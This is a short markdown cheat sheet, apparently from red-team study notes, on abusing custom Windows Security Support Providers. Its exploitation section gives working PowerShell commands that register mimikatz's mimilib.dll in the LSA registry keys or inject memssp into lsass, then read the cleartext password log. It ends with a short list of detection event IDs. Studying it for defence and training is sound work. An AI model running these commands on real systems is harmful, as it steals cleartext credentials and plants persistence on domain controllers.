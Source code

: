 # Custom SSPs

## General

- A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection
- Some SSP packages by Microsoft are
  - NTLM
  - Kerberos
  - Wdigest
  - CredSSP
- Mimikatz provdes custom SSP - mimilib.dll
- This SSP logs local logons, service account and machine aacount passwords in clear text on the target server

## Exploitation

```powershell
# First way: drop mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | Select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

# Second way: using mimikatz to inject into lsass (unstable with Server 2016)
Invoke-Mimikatz -Command '"misc::memssp"'

# All logons on the DC are logged to C:\Windows\system32\kiwissp.log
Get-Content C:\Windows\system32\kiwissp.log
```

## Detection

- Event IDs:
  - 4657: Audit creation/change of HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\SecurityPackages
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon
